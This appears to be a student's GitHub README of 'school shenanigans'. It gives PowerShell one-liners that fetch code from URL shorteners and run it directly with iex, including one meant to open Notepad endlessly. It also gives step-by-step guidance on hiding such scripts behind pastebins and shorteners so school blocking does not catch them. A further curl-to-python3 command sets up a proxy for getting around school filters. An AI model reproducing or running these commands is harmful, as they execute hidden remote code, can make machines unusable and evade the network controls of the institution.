 # WELCOME
This is the collection of the school activities, shenanigans, etc.

:

- [powershell](#powershell)
    - [the scripts](#scripting)
    - [how its made](#creation)
    - [getting powershell](#access)
- [python](#python)
    - [proxy manager](#proxy-manager)

--- 

## PowerShell

### scripting

#### open notepad, forever... 

##### (BE CAREFUL, I AM NOT RESPONSIBLE FOR ANY DAMAGES)

``` irm "http://tiny.cc/alwaysnotepad" | iex ``` [file](/note.ps1)

#### print the entire bee movie script in the shell (I was hella bored)

``` irm "http://tiny.cc/beepowershell" | iex ``` not documented,

### creation

1. make file and upload to github
    - any file type works but i usually have it in ps1 for ease of testing amd readability
2. go to any paste bin service unblocked by your school and make a link to the raw
    - I'm not sharing mine as it will get blocked
    - in this file make a script that executes the script on github
    - the script goes like ``` irm "website url" | iex ```
      -   irm - invoke rest method - gets the script from provided source
      -   | - pipe - it sends the output of whats before to whats after
      -   iex - invoke execution - executes the script
3. now put this new link in a url shortener to make it easy to execute and name it something memorable
4. execute - just run ``` irm "your short url" | iex ``` , you could have used the github link but this you can remember
5. with the file on github you can modify any time, because most url shorteners block github, pastebins are key.


### access

#### How to get powershell on our locked computers...

coming soon to a computer near you...
---

## Python

### proxy manager

In order for this to work you must have a google account!!!

go to [Google Cloud Shell](https://shell.cloud.google.com/?hl=en_US&fromcloudshell=true&show=terminal)

initialize and set up the environment as prompted

then run the following command to install / start the proxy

``` curl "https://rb.gy/3pdco1" -L | python3 ```

wait until it loads and then click the link to open your brand new proxy
